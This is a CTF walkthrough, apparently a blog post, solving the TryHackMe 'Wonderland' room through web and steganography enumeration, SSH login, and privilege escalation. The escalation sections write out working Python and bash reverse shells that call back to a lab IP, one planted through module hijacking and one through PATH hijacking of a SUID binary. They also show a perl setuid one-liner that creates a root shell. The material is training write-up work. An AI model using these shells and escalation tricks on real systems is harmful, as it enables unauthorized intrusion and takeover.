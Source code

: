 ```yaml
---
title: CTF tryhackme wonderland
categories: [CTF, THM, Medium]
tags: [http, ssh, steganography, linux_privesc, reverse_engineering]
date: 2024-03-06 08:00 +0700
---
```


In this room, we'll see to avoid rabbit holes

[https://tryhackme.com/r/room/wonderland](https://tryhackme.com/r/room/wonderland)

## nmap
- after nmap scan, port 22 and 80 are open

## feroxbuster
- `feroxbuster -u http://$IPTA:80 -t 30 -w /usr/share/dirb/wordlists/common.txt -x txt,html,sql,csv,png,jpg,jpeg,php,js,md,sh,py,css,cgi,xml,aspx,zip,tar,tar.gz,bak dir -o "ferox_$IPTA"_common_all.txt` 
![](/assets/img/img_thm_ctf_wonderland_7.png)

## manual web enumeration / steganography
![](/assets/img/img_thm_ctf_wonderland_6.png)
- `wget http://10.10.104.129/img/white_rabbit_1.jpg; ./stegoBF.sh white_rabbit_1.jpg`
	- or `stegseek white_rabbit_1.jpg -q -c`
- `cat *.out*`
- we can extract several strings in them, all saying "follow the r a b b i t"
![](/assets/img/img_thm_ctf_wonderland_5.png)
- feroxbuster got /r, with the message keep going on the page
![](/assets/img/img_thm_ctf_wonderland_8.png)
- given the message in the image and on the web page, we need to continue the letters until r/a/b/b/i/t 
- and indeed in the source code of the page, we get the SSH credentials of alice 
![](/assets/img/img_thm_ctf_wonderland_9.png)
- `ssh alice@$IPTA`

# linux privesc
## python script with import -> rabbit
- `sudo -l; head /home/alice/walrus_and_the_carpenter.py` we can execute a python script as rabbit, and this script import the 'random' module. We can create our own module file, which will be loaded in priority
![](/assets/img/img_thm_ctf_wonderland_10.png)
- `echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.64.57",56766));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' > random.py` let's write a reverse shell code in the random.py file
- US2: `nc -lvnp 56766`
- `sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py`
![](/assets/img/img_thm_ctf_wonderland_11.png)
- we have a rabbit shell, let's stabilize it with python

## reverse engineering -> hatter
- `file teaParty` we have a binary file, let's download it to analyse it
- TA:`python3 -m http.server`
- US:`wget $IPTA:8000/teaParty`
- `ltrace ./teaParty` the script will allow us to get a hatter shell
![](/assets/img/img_thm_ctf_wonderland_2.png)
- first I thought of a buffer overflow, but reverse engineering it with ghidra, we can see that the Segmentation fault message is hardcoded. What we see here is that date binary is called with a relative path! And since it's a SUID script, we can modify our path to execute our own date binary, as hatter user
![](/assets/img/img_thm_ctf_wonderland_3.png)
- `echo '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.11.64.57/56767 0>&1"' > date; chmod +x date` this one!
- US3:`nc -lvnp 56767`
- `PATH=.:$PATH ./teaParty`
![](/assets/img/img_thm_ctf_wonderland_12.png)
- notice how the script is stopped when the date binary start our reverse shell

## perl with extra capabilities -> root
- stabilize the shell with bash this time
- `cat /home/hatter/password.txt`
- `su hatter` we needed this password, otherwise we're not fully logged as hatter since we used a SUID script
- `getcap -r / 2>/dev/null` search for files that have capabilities (or use linpeas)
- `perl -v` https://gtfobins.github.io/gtfobins/perl/#capabilities we can execute perl, it has extra capabilities set, we can use it to get a root shell
- `perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash";'` 
- `/tmp/rootbash -p`
- `find / \( -name "user.txt" -o -name "root.txt" \) 2>/dev/null | while read -r flagfile; do echo -e "\n$flagfile"; cat $flagfile; done`
![](/assets/img/img_thm_ctf_wonderland_13.png)